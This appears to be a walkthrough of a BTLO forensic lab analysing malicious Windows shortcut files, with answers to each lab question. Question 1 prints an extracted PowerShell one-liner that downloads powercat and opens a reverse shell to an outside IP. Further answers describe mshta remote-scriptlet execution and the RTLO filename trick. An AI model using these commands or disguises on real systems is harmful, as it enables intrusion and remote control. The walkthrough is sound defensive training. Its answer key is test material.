





# BTLO Investigation Walkthrough: Shortcut

*Investigation of malicious LNK (Windows Shortcut) files used for phishing, living-off-the-land command execution, and embedded C2 callbacks.*

## Overview

The lab desktop contained several Windows shortcut (`.lnk`) files disguised as legitimate applications (Google Chrome, Microsoft Edge, Internet Explorer, Internet Download Manager, Autopsy, and a file named `Groups`). A WordPad document named "Secret" also contained an embedded, disguised shortcut object named `NSA-confidential.lnk`. Each shortcut was analyzed offline using Sysinternals `strings64.exe` to extract embedded command-line arguments without executing the files, in order to identify malicious behavior, command-and-control (C2) infrastructure, and hidden artifacts.

---

## Question 1

**Q:** Which of the malicious shortcuts connects back to the IP "185.66.23.10"? What port is the adversary-controlled server listening to?

Running `strings64.exe` against each desktop shortcut revealed that `Groups.lnk` contained an embedded PowerShell command line rather than a normal shortcut target. The command first downloads a script named `powercat.ps1` from a staging host (`102.168.1.109`), then uses the powercat tool to open a connection back to `185.66.23.10` on port `9009` and spawn a command shell (`-e cmd`), giving the attacker interactive remote access.

Extracted command:
```
IEX(New-Object System.Net.WebClient).DownloadString('http://102.168.1.109/powercat.ps1');powercat -c 185.66.23.10 -p 9009 -e cmd
```


*Figure 1 — strings64 output for Groups.lnk showing the embedded PowerShell/powercat command.*

> **Answer:** `Groups.lnk`, port `9009`

---

## Question 2

**Q:** There was an unusual file found named "btlo-update.sct". Where did it come from?

The shortcut disguised as `Google Chrome.lnk` did not point directly to `chrome.exe`. Instead, it invoked `mshta.exe` to execute a remote scriptlet via `GetObject("script:...")`, pulling `btlo-update.sct` from the spoofed domain `googleupdatecenter.com` over HTTPS. This is a classic living-off-the-land technique: `mshta.exe` is a trusted, signed Windows binary abused to silently run remote script content while the shortcut's icon and label still appear to be a normal Chrome launcher.


*Figure 2 — strings64 output for Google Chrome.lnk showing the mshta.exe scriptlet execution.*

> **Answer:** `https://googleupdatecenter.com`

---

## Question 3

**Q:** Can a Microsoft Word document give you a flag instead of a malware?

Yes. Not every artifact in the environment is a malware payload — Word documents and their embedded objects can also be used purely as containers for hidden data. The embedded OLE package inside the "Secret" document referenced a file named `blank.txt` with a deliberately unremarkable name. Locating and opening this file directly in Notepad revealed a flag string, confirming that the document itself was used as a delivery/hiding mechanism for investigation data rather than executable malware.


*Figure 3 — blank.txt opened in Notepad, revealing the flag string.*

> **Answer:** `SBT{NotaFlag}`

---

## Question 4

**Q:** What is the name of the machine the shortcut file "Microsoft Edge" came from?

LNK files created by Windows Explorer embed a TrackerDataBlock, which stores tracking information including the NetBIOS machine name of the system on which the shortcut was originally created. Extracting strings from `Microsoft Edge.lnk` surfaced the value `desktop-2pn6ddf` immediately following the target path information, identifying the originating host.


*Figure 4 — strings64 output for Microsoft Edge.lnk showing the embedded NetBIOS machine name.*

> **Answer:** `DESKTOP-2PN6DDF`

---

## Question 5

**Q:** What is the Unicode value of the special character used to name the special file?

A file on the desktop appeared as `README` followed by an unusual glyph, then `txt..lnk` — rendering differently across tools (e.g. as "£" in one console and as "?" in another), which indicated a non-standard Unicode character rather than a normal period. Iterating over the filename character-by-character in PowerShell and printing each character's hex codepoint identified the character as `U+202E`, the RIGHT-TO-LEFT OVERRIDE (RLO) control character. This is a known technique (the "Unicode RTLO attack") used to visually reverse part of a filename, commonly to disguise an executable's true extension as something benign.


*Figure 5 — PowerShell character-by-character breakdown of the README...lnk filename, showing each character's Unicode codepoint.*

> **Answer:** `U+202E`

---

## Summary

All five investigation questions were resolved through static analysis of the LNK shortcut files using `strings64.exe`, extraction of an embedded OLE object from a decoy Word document, and manual Unicode inspection of a suspiciously named file. The activity observed is consistent with a phishing/initial-access scenario using disguised shortcuts for command execution (`Groups.lnk` via PowerShell/powercat), remote scriptlet execution (`Google Chrome.lnk` via mshta), and filename obfuscation (`README...lnk` via Unicode RTLO), alongside decoy/lure content (the `NSA-confidential.lnk` lure document and the `blank.txt` flag file).
